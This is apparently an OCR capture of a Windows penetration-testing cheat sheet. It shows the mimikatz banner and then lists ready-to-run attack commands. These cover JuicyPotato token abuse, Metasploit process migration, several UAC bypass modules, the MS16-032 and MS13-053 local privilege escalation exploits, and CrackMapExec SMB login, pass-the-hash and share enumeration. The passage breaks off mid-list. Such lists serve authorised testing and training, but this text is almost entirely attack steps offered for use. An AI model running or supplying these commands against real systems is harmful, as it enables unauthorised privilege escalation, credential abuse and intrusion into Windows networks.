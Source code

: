   .#####.   mimikatz 2.2.0 (x86) #18362 May 13 2019 01:34:39
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # 
Privilege Escalation of Windows
JuicyPotato
JuicyPotato.exe -l <PORT> -p c:\windows\system32\cmd.exe -t * 
Migrate Process
msf > ps
msf exploit(bypassuac) > migrate <pid>
Windows Escalate UAC Protection Bypass
msf > use exploit/windows/local/bypassuac
msf exploit(bypassuac) > set session 1
msf exploit(bypassuac) > exploit
Windows Escalate UAC Protection Bypass (In Memory Injection)
msf > use exploit/windows/local/bypassuac_injection
msf exploit(bypassuac_injection) > set session 1
msf exploit(bypassuac_injection) > exploit
Windows Escalate UAC Protection Bypass (Script Host Vulnerability)
msf > use windows/local/bypassuac_vbs
msf exploit(bypassuac_vbs) > set session 1
msf exploit(bypassuac_vbs) > exploit
Windows Escalate UAC Execute RunAs
msf > use windows/local/ask
msf exploit(ask) > set session 1
msf exploit(ask) > exploit
MS16-032 Secondary Logon Handle Privilege Escalation Windows 7 32 bit
msf > use windows/local/ms16_032_secondary_logon_handle_privesc
msf exploit(ms16_032_secondary_logon_handle_privesc) > set session 1
msf exploit(ms16_032_secondary_logon_handle_privesc) > exploit
Windows NTUserMessageCall Win32k Kernel Pool Overflow (Schlamperei)
msf exploit(ms13_053_schlamperei) >set session 1
msf exploit(ms13_053_schlamperei) >exploit
Crackmapexec V4.0
Enemurate target

bash$ cme smb <target> 
Access to machine by valid username/password

bash$ cme smb <target> -u username -p password
Access to machine using the NTLM hash (if u see PWN3D the user hash administrator priveleges )

bash$ cme smb <target> -u username -H hash
Listing shares

bash$ cme smb <target> -u username -p password --shares
Enumerate active sessions

